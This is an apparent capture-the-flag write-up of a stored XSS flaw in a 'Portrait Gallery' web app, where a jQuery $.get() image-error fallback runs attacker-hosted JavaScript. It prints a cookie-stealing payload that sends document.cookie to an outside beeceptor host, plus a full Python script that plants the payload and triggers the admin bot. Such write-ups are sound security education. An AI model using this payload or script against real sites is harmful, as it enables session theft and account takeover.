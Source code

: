 

# Portrait Gallery XSS Vulnerability Writeup

## Vulnerability Overview

The Portrait Gallery application contains a stored XSS vulnerability that allows attackers to steal the admin bot's cookie containing the flag.

## Application Architecture

The application consists of:
1. A web frontend that allows users to register, add portraits, and view galleries
2. An admin bot that visits reported URLs with a flag cookie
3. A MongoDB backend for data storage

## Vulnerability Details

The critical vulnerability exists in the gallery.html file, specifically in the image error handling mechanism:

```javascript
img.on("error", (e) => {
    $.get(e.currentTarget.src).fail((response) => {
        if (response.status === 403) {
            $(e.target).attr("src", "https://cdn.pixabay.com/photo/2021/08/03/06/14/lock-6518557_1280.png");
        } else {
            $(e.target).attr(
                "src",
                "https://cdn.pixabay.com/photo/2024/02/12/16/05/siguniang-mountain-8568913_1280.jpg"
            );
        }
    });
});
```

When an image fails to load, The web-app makes another `$.get()` request to the same URL which creates a situation where jQuery can execute the URL Contents.


## Exploit Chain

1. First, create a portrait with a malicious JavaScript file URL as the source:
   ```
   https://ddddd.free.beeceptor.com/exploit.js
   ```

The exploit.js file contains:
   ```javascript
   document.location='https://ddddd.free.beeceptor.com/steal?c='+document.cookie;
   ```

2. Report the page to the admin bot. When the admin bot visits the gallery page:
   - The browser tries to load exploit.js as an image, which fails
   - The error then makes a jQuery $.get() request to exploit.js
   - jQuery parses the JavaScript content which then executes the malicious code
   - The code redirects the admin bot to the server with the flag cookie

## Root Cause Analysis

1. **Input validation**: The application allows any URL as an image source without verifying it's actually an image,
2. **jQuery's behavior**: jQuery's $.get() can execute JavaScript in certain contexts
3. **Non-Http Only cookies**: The flag cookie is accessible from JavaScript

## Automation Code
```py 
beeceptorendpoint = "dddd"
# Make sure to change the baseurl to your own instance.
baseurl = "52.188.82.43:8070"
print("Web/Portrait Exploit")
input(f"Before you run this script, please go to https://app.beeceptor.com/console/{beeceptorendpoint} to catch the requests to your endpoint.")

import requests
import random
import string

url = f"http://{baseurl}/api/register"
username = "hackingtime" + ''.join(random.choices(string.ascii_letters + string.digits, k=5))
data = {
    "username": username,
    "password": "timetohack1"
}
print("Registering...")
response = requests.post(url, json=data)
if response.status_code == 200:
    print("Register Success")
    token = response.json()["token"]
else:
    print("Register Failed")
    print(response.text)
    exit()
print("Placing Exploit...")
data = {
    "name": "hacked",
    "source": f"https://{beeceptorendpoint}.free.beeceptor.com/exploit.js"
}
headers = {
    "Content-Type": "application/json",
    "Authorization": f"Bearer {token}",
}
response = requests.post(f"http://{baseurl}/api/portraits", json=data, headers=headers)
if response.status_code == 200 and "saved" in response.text:
    print("Exploit Placed")
else:
    print("Exploit Placement Failed")
    print(response.text)
    exit()
headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:137.0) Gecko/20100101 Firefox/137.0",
    "Accept": "*/*",
    "Accept-Language": "en-US,en;q=0.5",
    "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
    "X-Requested-With": "XMLHttpRequest",
    "Sec-GPC": "1",
    "Priority": "u=0",
    "Pragma": "no-cache",
    "Cache-Control": "no-cache"
}
print("Running Exploit...")
data = {
    "url": f"http://{baseurl}/gallery?username={username}"
}
response = requests.post(f"http://{baseurl}/report/", data=data, headers=headers)
if response.status_code == 200 and "visited" in response.text:
    print("Exploit Success! Check your Beeceptor URL for the flag.")
else:
    print("Exploit Failed")
    print(response.text)
    exit()
```
